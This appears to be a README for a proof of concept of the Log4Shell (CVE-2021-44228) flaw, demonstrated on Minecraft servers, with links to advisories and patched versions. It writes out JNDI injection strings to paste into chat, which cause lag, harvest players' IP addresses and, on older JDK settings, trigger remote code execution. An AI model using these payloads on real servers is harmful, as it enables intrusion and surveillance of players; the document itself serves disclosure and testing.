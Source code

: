 # Log4J-RCE-Proof-Of-Concept (CVE-2021-44228)

This is a proof of concept of the log4j rce.

Here are some links for the CVE-2021-44228:
- https://www.lunasec.io/docs/blog/log4j-zero-day
- https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
- https://github.com/apache/logging-log4j2/pull/608
- https://www.youtube.com/watch?v=JPGola6BamU

This bug affects nearly all log4j2 and maybe log4j1 versions. The recommended version to use is **[2.15.0](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0)** which fixes the exploit.

## Demonstration with minecraft (which uses log4j2)

- Details for the impact on minecraft are listed here: https://twitter.com/slicedlime/status/1469150993527017483
- Article from minecraft is here: https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition
- Fixed minecraft forge versions: https://twitter.com/gigaherz/status/1469331288368861195
- Fixed minecraft fabric versions: https://twitter.com/slicedlime/status/1469192689904193537
- Fixed minecraft paper versions: https://twitter.com/aurora_smiles_/status/1469205803232026625
- Fixed minecraft spigot versions: https://www.spigotmc.org/threads/spigot-security-releases-%E2%80%94-1-8-8%E2%80%931-18.537204/
- Fixed minecraft sponge versions: https://discord.com/channels/142425412096491520/303772747907989504/918744598065586196

### Lag or sending serialized data 

- Paste ``${jndi:ldap://127.0.0.1/e}`` in the chat. If there is an open socket on port ``389`` logj4 tries to connect and blocks further communiction until a timeout occurs.
- When using this proof of concept exploit, the log in the console will log ``THIS IS SEND TO THE LOG!!! LOG4J EXPLOIT!`` which is a serialized string object from the ldap server.

![image](https://user-images.githubusercontent.com/7681220/145529175-b6f88cf0-67d0-450b-a834-87942202d594.png)

- Additionally the malicious ldap server receives every ip address where the message is logged. This means that ip adresses of players on a server can be collected which this exploit.

### RCE

- Paste ``${jndi:ldap://127.0.0.1/exe}`` in the chat. If ``-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`` is set to true the remote code execution will happen.

![image](https://user-images.githubusercontent.com/7681220/145529797-a3952c3e-c81e-4e91-b383-490688736f9c.png)

- Fortunately modern jdks disable remote class loading by default. (https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
- Old versions may still allow this!!


 
